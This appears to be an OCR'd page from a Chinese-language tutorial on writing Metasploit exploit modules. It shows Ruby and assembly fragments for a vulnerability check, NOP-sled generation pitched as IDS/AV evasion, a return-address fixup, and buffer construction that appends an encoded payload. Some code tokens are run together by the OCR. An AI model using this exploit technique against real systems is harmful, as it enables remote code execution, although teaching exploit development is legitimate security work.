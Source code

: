```
end 

def check 
connect 
disconnect 

if (banner =~ /BigFoolCat/) 
return Exploit::CheckCode::Vulnerable 
end 
return Exploit::CheckCode::Safe 
end 
```

以下代码定义了一个生成 NOP 滑梯以帮助 IDS/IPS/AV 规避的函数。一些人认为 NOP 滑梯是解决这个问题的一个快速而肮脏的解决方案，并认为除非有特别好的理由，否则不应该使用它们。为简单起见，在编写模块的示例中，我们在代码中保留了该函数：

```
defmake_nops(num); "C" * num; end 
```

以下过程修复了一个返回地址，从这个地址可以执行有效负载。从技术上讲，它解决了栈寻址的问题：

```
def exploit 
connect_login 

    # NOTE: 
    # This exploit jumps to ebp, which happens to point at a      partial version of 
    # the 'buf' string in memory. The fixRet below fixes up the      code stored on the 
    # stack and then jumps there to execute the payload. The value      inesp is used 
    # with an offset for the fixup. 
fixRet_asm = %q{ 
movedi,esp 
subedi, 0xfffffe10 
mov [edi], 0xfeedfed5 
addedi, 0xffffff14 
jmpedi 
    } 
fixRet = Metasm::Shellcode.assemble(Metasm::Ia32.new,  fixRet_asm).encode_string 

buf = '' 
```

最初，利用缓冲区包含编码的返回地址和随机化的 NOP 指令：

```
print_status("Prepending fixRet...") 
buf<<fixRet 
buf<<make_nops(0x20 - buf.length)
```

以下代码在运行时向我们的利用程序中添加了一个动态生成的 shellcode：

```
print_status("Adding the payload...") 
buf<<payload.encoded 
```
